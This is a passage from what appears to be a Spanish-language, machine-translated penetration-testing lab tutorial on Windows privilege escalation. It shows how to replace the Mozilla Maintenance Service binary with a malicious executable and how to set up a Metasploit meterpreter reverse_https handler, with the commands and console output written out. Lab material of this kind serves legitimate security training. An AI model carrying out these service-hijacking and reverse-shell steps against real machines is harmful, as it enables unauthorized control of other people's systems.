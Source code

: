 #### Reemplazar el archivo con binario malicioso

Podemos sobrescribir el`maintenanceservice.exe`binario en`c:\Program Files (x86)\Mozilla Maintenance Service`Con una buena copia de trabajo de nuestro binario malicioso creado antes antes de proceder para comenzar el servicio. En este ejemplo, descargamos dos copias del binario malicioso para`C:\Users\htb-student\Desktop`, `maintenanceservice.exe`y`maintenanceservice2.exe`. Mueva la buena copia que no fue corrompida por la exploit`maintenanceservice2.exe`al directorio de archivos de programa, asegurarse de cambiar el nombre del archivo correctamente y eliminar el`2`o el servicio no comenzará. El`copy`El comando solo funcionará desde una ventana CMD.EXE, no una consola PowerShell.

  Exploits de núcleo

```cmd-session
C:\htb> copy /Y C:\Users\htb-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

        1 file(s) copied.

```

#### Script de recursos de metasploit

A continuación, guarde los siguientes comandos en un[Script de recursos](https://docs.rapid7.com/metasploit/resource-scripts/)Archivo nombrado`handler.rc`.

  Exploits de núcleo

```shell-session
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST <our_ip>
set LPORT 8443
exploit
```

#### Lanzamiento de Metasploit con script de recursos

Inicie MetaSploit utilizando el archivo de script de recursos para precargar nuestra configuración.

  Exploits de núcleo

```shell-session
xnoxos@htb[/htb]$ sudo msfconsole -r handler.rc 
                                                 

         .                                         .
 .

      dBBBBBBb  dBBBP dBBBBBBP dBBBBBb  .                       o
       '   dB'                     BBP
    dB'dB'dB' dBBP     dBP     dBP BB
   dB'dB'dB' dBP      dBP     dBP  BB
  dB'dB'dB' dBBBBP   dBP     dBBBBBBB

                                   dBBBBBP  dBBBBBb  dBP    dBBBBP dBP dBBBBBBP
          .                  .                  dB' dBP    dB'.BP
                             |       dBP    dBBBB' dBP    dB'.BP dBP    dBP
                           --o--    dBP    dBP    dBP    dB'.BP dBP    dBP
                             |     dBBBBP dBP    dBBBBP dBBBBP dBP    dBP

                                                                    .
                .
        o                  To boldly go where no
                            shell has gone before


       =[ metasploit v6.0.9-dev                           ]
+ -- --=[ 2069 exploits - 1123 auxiliary - 352 post       ]
```